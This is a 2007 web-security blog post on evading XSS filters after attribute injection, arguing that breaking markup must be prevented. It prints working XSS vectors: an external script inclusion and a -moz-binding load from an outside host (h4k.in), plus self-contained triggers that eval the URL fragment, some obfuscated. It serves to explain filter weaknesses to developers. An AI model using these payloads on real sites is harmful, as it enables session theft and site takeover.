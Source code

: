 ```yaml
---
title: The New Dawn Of Filter Evasion
author: mario-heiderich
date: Fri, 13 Jul 2007 06:57:16 GMT
template: this/views/post.jade
---
```


This article is about the most important phase when attacking web applications. The phase when the markup has just been broken and the attacker will try to inject his own markup, script code or other data - let's call it the PMBP (post-markup-breaking-phase). This phase is mostly possible to occur when quotes aren't correctly sanitized or when input is placed between two tags. In this article we will set the focus on the first variant - the attribute injection. And we will prove that protecting your markup from being broke into is the very most important task in client side security.

## Basic filtering

Many developers use standard filter functions to sanitize their output. Mostly a good idea, but the developer has to know what his filters and the attacker is capable of. Some say that the developer is to blame for the bugs, because he/she doesn't implement properly the security examples as they come from the books. Developers usually does not have enough _time_ and knowledge for cutting edge security research. Mostly of the time they need to chose between stripping the tags, converting HTML and special characters to entities, urlencoding the input, using approaches like [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) or even combining those filtering methods, in order to secure the applications they are working on. Usually those methods aren't used and combined with exact knowledge and so they tear open security holes or even cripple the user experience in some situations. Did you know that PHP's [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) leaves the characters `.-=a-Z0-9, space and /` untouched? This function is recommended by several books as a good filter alternative.

## Get it running

So what is the attacker able to do when he/she breaks out the markup, and injects new tags and attributes? When new tags can be injected the site is considered owned - even if there are filters that block script tags and iframes. It is interesting to look at the attributes. Depending on the browser - we're talking about the two major ones in this article - there are several ways to inject attributes that will fire JavaScript without requiring user interaction. If the attacker breaks out a tag which points to binary contents, like a link tag, an img tag or even an iframe, embed or object we can use the onerror handler and provide a crippled source attribute. Once the browser tries to load a source like _xxx_ it will fail and fire the event - for which we already injected a handler (javascript function call). On the other hand, we can utilize the style tag to create XSS without user interaction. Both gecko based browsers and all important IE versions ship proprietary selectors and methods to execute JavaScript within a style tag or attribute - just to name a few, we have: _-moz-binding_ and _expression()_. In order to exploit these situations the attacker has to inject more code. I've seen several websites where developers seemed to know that and had implemented filters that stripped a bunch of special chars - sometimes dot and brackets, sometimes other stuff - to avoid the injection of active code. Unfortunately, there's a way to circumvent all of them.

## Circumvent the ignorance

One of the most common filters - never understood why - is the stripping of the pattern _http://_. It seems thousands of developers out there believe that without this string it's not possible to get an external inclusion running and furthermore without an external inclusion you can't do much bad stuff on the targeted application. This is not true. It has been moths ago since I've published a miniaturized vector for script inclusions - 20 characters of length which does not have the _http://_ string. The cross browser version is 27 characters in length. Same goes for filtering the dot, brackets, spaces etc. Here is an example:

	<script src=//h4k.in 

Some filters transform all user input to uppercase letters - which is more useless than stripping _http://_ string. A major portal about a server side programming languages once suffered from a bad filter which stripped out all event handlers beginning with _on\w+_ and _style_. This is good example. Plain stripping will **never** make sense - the filter was easily circumvented by the following:

	sstyle="foobar"tstyle="foobar"ystyle="foobar"lstyle="foobar"estyle="foobar"=-moz-binding:url(http://h4k.in/mozxssc.xml#xss)>foo

But it's even getting better. Some weeks ago a pretty new and very intelligent kind of filter evading vectors came to light - these vectors were capable of carrying large payloads in totally stealth mode. These vectors does not require externally hosted scripts to perform the task. This is the reason why they are called [self contained XSS](/blog/one-drop-on-a-spider-web).

## CSO's nightmare

Self contained XSS is mostly based on the fact, that it's possible to pass values via URL, that are seen by the client only, but not by the server. Those values are called fragment identifiers. Everything passed behind the URL hash (#) is only visible to the client which includes the JavaScript runtime engine. So, the attacker just needs to inject a code snippet that evaluates the contents of this part of the URL - which is mostly very short and contains no information of what the real payload consists of. Due to the very dynamic nature of JavaScript it is possible to create _myriads_ of variants of those payload triggers and in combination with browser peculiarities the possibilities of creating these triggers become uncountable. Here is an exmaple

	eval.call(this,unescape.call(this,location))
	code:_=eval,__=unescape,___=document.URL,_(__(___)) code:with(location)with(hash)eval(substring(1))

Of course, it's also possible to rip these functions apart, shuffle their fragments and compose them back together at the end like this:

	l=0||'str',m= 0||'sub',x= 0||'al',y= 0||'ev',g= 0||'tion.h',f= 0 ||'ash',k= 0||'loca',d=(k)+(g)+(f),a

## Conclusion and credits

So - why are we showing all those vectors and talking about all the possibilities to hide, obfuscate possible attacks and evade filter mechanisms? To prove a point, I must say! Once the attacker breaks the markup he/she becomes in charge of that content - whether there's a filter between the application and the user or not. There's no way of finding a perfect balance between effective filtering and not crippling the user's experience. To make it short - the PMBP **must** never happen. In order to make this article a dirty cliffhanger - in the next part we will talk about how to avoid this exact phase. We'll learn how to make sure the user won't be annoyed by your filter and still guaranteeing stalwart security too. Credits for the shown vectors go the author, the [PHPIDS Group](http://groups.google.de/group/php-ids/), [Giorgio Maone](http://maone.net/), [Kishor](http://wasjournal.blogspot.com/), [Martin Hinks](http://the-mice.co.uk/switch/), [Christian Matthies](http://christ1an.blogspot.com/), [sirdarckcat](http://www.sirdarckcat.net/) and the guys from [sla.ckers.org](http://sla.ckers.org/forum/).
